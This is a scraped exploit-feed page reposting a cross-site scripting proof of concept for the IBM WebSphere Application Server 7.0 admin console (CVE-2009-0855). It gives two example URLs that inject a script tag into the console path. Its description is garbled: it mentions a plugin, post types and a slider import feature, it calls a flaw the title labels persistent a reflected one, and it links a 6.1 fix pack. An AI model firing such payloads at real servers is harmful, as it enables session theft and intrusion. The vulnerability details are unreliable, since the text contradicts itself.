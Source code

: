 ```yaml
---
title: IBM Websphere Application Server 7.0 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170073&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-03
fetch_date: 2025-10-04T00:22:12.964688
---
```


# IBM Websphere Application Server 7.0 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for IBM Websphere Application Server 7.0 Cross Site Scripting CVE-2009-0855

2022-12-02 | CVSS 4.3

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170073
# Exploit Title: IBM Websphere Application Server 7.0 - Persistent Cross-Site Scripting (Authenticated)
# Date: 2022-12-02
# Author: Milad karimi
# Software Link: https://www.ibm.com/support/pages/6107-websphere-application-server-v61-fix-pack-7-windows
# Version: 7.0
# Tested on: Windows 10
# CVE: 2009-0855

1. Description:
This plugin creates a IBM Websphere Application Server from any post types. The slider import search feature and tab parameter via plugin settings are vulnerable to reflected cross-site scripting.

2. Proof of Concept:
http://www.example.com/ibm/console/<script>alert('Ex3ptionaL_XSS')</script>
http://www.example.com/ibm/console/<script>alert('Ex3ptionaL_XSS')</script>.jsp
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)